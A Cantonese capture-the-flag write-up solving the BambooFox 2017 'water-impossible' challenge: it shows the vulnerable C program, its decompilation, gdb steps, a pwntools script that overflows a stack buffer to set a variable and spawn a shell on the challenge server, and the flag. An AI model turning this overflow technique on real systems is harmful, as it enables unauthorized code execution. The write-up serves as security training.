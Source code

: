 ```yaml
---
title: Bamboofox2017-water-impossible
date: 2018-01-01 16:29:02
tags:
---
```


## Question

### Source
``` c
#include"stdio.h"
#include"stdlib.h"


int main(){
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  int token = 1234;
  char key[16];

  printf("Welcome !! Challenger ~\n");
  printf("Here is a simple challenge for you.\n");
  printf("Try to find the key to pass :");

  read(0, key, 40);

  if((int)token == 6666){
    printf("wow, That's impossible to touch this token ?!");
    system("/bin/sh");
  }

  return 0;
}
```

### Binary
[water-impossible-7a06e581acf1525f968b503e2485383de7ff1aff](water-impossible-7a06e581acf1525f968b503e2485383de7ff1aff)

## Solution

就咁睇個source應該係要令到token變做6666 , 但係user入既input就正係會影響到variable key.
所以應該係一個好經典既buffer overflow題目?

首先扔入ida睇下先 , decompile個main 我地可以睇到
``` c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [sp+0h] [bp-20h]@1
  int v5; // [sp+1Ch] [bp-4h]@1

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  v5 = 1234;
  puts("Welcome !! Challenger ~");
  puts("Here is a simple challenge for you.");
  printf("Try to find the key to pass :", 0LL);
  read(0, &buf, 0x28uLL);
  if ( v5 == 0x1A0A )
  {
    printf("wow, That's impossible to touch this token ?!", &buf);
    system("/bin/sh");
  }
  return 0;
}
```

由呢到我地可以睇到我地既input係buf , 佢既位置係sp+0h
而我地要影響既值係 sp+1Ch , 所以我地首先要做既係試下入28個位既input , 睇下影唔影響到先!
咁既話即係我地要搵左佢個判斷位 , 然後break左佢先

### Command
``` bash
gdb water-impossible-7a06e581acf1525f968b503e2485383de7ff1aff
diass main
```
![](img1.png)

我地可以見到, 呢到係判斷緊rbp-0x4呢個value等唔等於0x1a0a
main+137
``` asm
cmp DWORD PTR [rbp-0x4],0x1a0a
```

所以我地可以break黎睇下如果我地入28個位以上呢個值會有咩轉變

``` bash
b *main+137
r
aaaaaaaaaaaaaaaaaaaaaaaaaaaabb
x/xs $rbp-0x4
```
![](img2.png)

咦! $rbp-0x4 呢到係放住左bb , 即係確定左28個位之後果d值係可以控制到$rbp-0x4 , 咁即係我地可以控制佢變做0x1a0a

``` python
from pwn import *
r = remote('bamboofox.cs.nctu.edu.tw',58799)
r.recvuntil("pass :")
r.sendline("a"*28 + p32(0x1a0a))
r.interactive()
```

![](img3.png)


### Flag
```
BAMBOOFOX{Pwnnnnnnnning_1s_sImP13_and_Int3r3stIngggg}
```